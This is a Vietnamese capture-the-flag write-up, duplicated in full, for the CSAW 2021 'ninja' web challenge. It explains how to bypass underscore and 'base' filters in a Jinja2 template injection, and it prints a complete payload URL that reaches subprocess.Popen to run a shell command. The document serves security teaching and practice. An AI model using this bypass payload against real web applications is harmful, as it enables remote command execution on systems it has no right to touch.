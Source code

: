 ```yaml
---
tag:
    - ctf
---
```

# csaw21-ctf

## ninja

Đầu tiên, khi vào chúng ta có duy nhất một URL dẫn đến một Page. Page này cho phép ta nhập tên và render ra lời chào tới tên đó. Lỗ hổng dễ nhận ra đó là SSTI tương tự bài [Templated](https://ctf.d3s34.me/hackthebox/challenge/templated).&#x20;


![screenshot-from-2021-09-13-01-38-25.png](./csaw21-ctf/M4VBc7cfP.png)

Cách exploit tương tự bài Templated ở trên tuy nhiên, chúng ta bị filter các keyword cho là nguy hiểm...

![screenshot-from-2021-09-11-11-28-20.png](./csaw21-ctf/F7Z8R0KUy.png)

&#x20;Vậy là chúng ta bị filter `_` và `base`. Cần tìm được cách bypass được các filter này. Mình tìm được bài [này](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f) và bài [này](https://0day.work/jinja2-template-injection-filter-bypasses/). Nên chúng ta có các quy tắc thay thế sau:&#x20;

* Sử dụng `attr()` để gọi các `attribute` của tham số.
* Các tham số được truyền thông qua `|` tương tự pipeline.
* Ký tự `_` được thay thế bằng `\x5f`
* Khi tham chiếu đến các phần tử thì sử dụng `__getitem()__` _thay cho `[ ]`_

Và do từ khóa `base` bị filter nên đương nhiên ta sẽ dùng qua MRO.


![screenshot-from-2021-09-11-11-25-24.png](./csaw21-ctf/gSd1pU1s0.png)

Ở bài Templated thì mình có dùng slice để tìm được class `Popen` nhanh nhưng ở đây tìm phép thay thế có vẻ mất thời gian nên mình có học theo bài trên medium là dùng Python để tìm index bằng cơm :v

```python
file = open("lol.txt", "r")
    lst = file.read().split(",")
    for index, value in enumerate(lst):
        if value.find("Popen") != -1:
            print(index, value)
```

&#x20;Tìm được index rồi thì pass tham số vào thôi!

Payload đầy đủ sẽ như sau

```python
http://web.chal.csaw.io:5000/submit?value={""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fmro\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")(2)|attr("\x5f\x5fsubclasses\x5f\x5f")()|attr("\x5f\x5fgetitem\x5f\x5f")(258)("cat flag.txt",shell=True,stdout=-1)|attr("communicate")()}}
```

![screenshot-from-2021-09-11-11-26-11.png](./csaw21-ctf/wQQJXlkrD.png)
# csaw21-ctf

## ninja

Đầu tiên, khi vào chúng ta có duy nhất một URL dẫn đến một Page. Page này cho phép ta nhập tên và render ra lời chào tới tên đó. Lỗ hổng dễ nhận ra đó là SSTI tương tự bài [Templated](https://ctf.d3s34.me/hackthebox/challenge/templated).&#x20;


![screenshot-from-2021-09-13-01-38-25.png](./csaw21-ctf/M4VBc7cfP.png)

Cách exploit tương tự bài Templated ở trên tuy nhiên, chúng ta bị filter các keyword cho là nguy hiểm...

![screenshot-from-2021-09-11-11-28-20.png](./csaw21-ctf/F7Z8R0KUy.png)

&#x20;Vậy là chúng ta bị filter `_` và `base`. Cần tìm được cách bypass được các filter này. Mình tìm được bài [này](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f) và bài [này](https://0day.work/jinja2-template-injection-filter-bypasses/). Nên chúng ta có các quy tắc thay thế sau:&#x20;

* Sử dụng `attr()` để gọi các `attribute` của tham số.
* Các tham số được truyền thông qua `|` tương tự pipeline.
* Ký tự `_` được thay thế bằng `\x5f`
* Khi tham chiếu đến các phần tử thì sử dụng `__getitem()__` _thay cho `[ ]`_

Và do từ khóa `base` bị filter nên đương nhiên ta sẽ dùng qua MRO.


![screenshot-from-2021-09-11-11-25-24.png](./csaw21-ctf/gSd1pU1s0.png)

Ở bài Templated thì mình có dùng slice để tìm được class `Popen` nhanh nhưng ở đây tìm phép thay thế có vẻ mất thời gian nên mình có học theo bài trên medium là dùng Python để tìm index bằng cơm :v

```python
file = open("lol.txt", "r")
    lst = file.read().split(",")
    for index, value in enumerate(lst):
        if value.find("Popen") != -1:
            print(index, value)
```

&#x20;Tìm được index rồi thì pass tham số vào thôi!

Payload đầy đủ sẽ như sau

```python
http://web.chal.csaw.io:5000/submit?value={""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fmro\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")(2)|attr("\x5f\x5fsubclasses\x5f\x5f")()|attr("\x5f\x5fgetitem\x5f\x5f")(258)("cat flag.txt",shell=True,stdout=-1)|attr("communicate")()}}
```

![screenshot-from-2021-09-11-11-26-11.png](./csaw21-ctf/wQQJXlkrD.png)
